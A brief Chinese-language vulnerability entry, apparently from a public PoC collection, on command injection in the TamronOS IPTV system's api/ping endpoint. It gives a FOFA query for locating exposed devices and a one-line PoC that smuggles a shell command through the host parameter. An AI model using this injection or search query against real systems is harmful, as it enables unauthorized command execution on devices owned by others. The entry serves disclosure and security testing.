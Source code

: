 # TamronOS-IPTV系统-ping-任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> TamronOS IPTV系统

## FOFA

> [!NOTE]
>
> app="TamronOS-IPTV系统"

## 漏洞复现

登录页面如下

![image-20210615145308242](TamronOS-IPTV系统-ping-任意命令执行漏洞.assets/1627363143995221.jpg)

漏洞POC为

```
/api/ping?count=5&host=;id;
```

![image-20210615145342322](TamronOS-IPTV系统-ping-任意命令执行漏洞.assets/1627363144225502.jpg)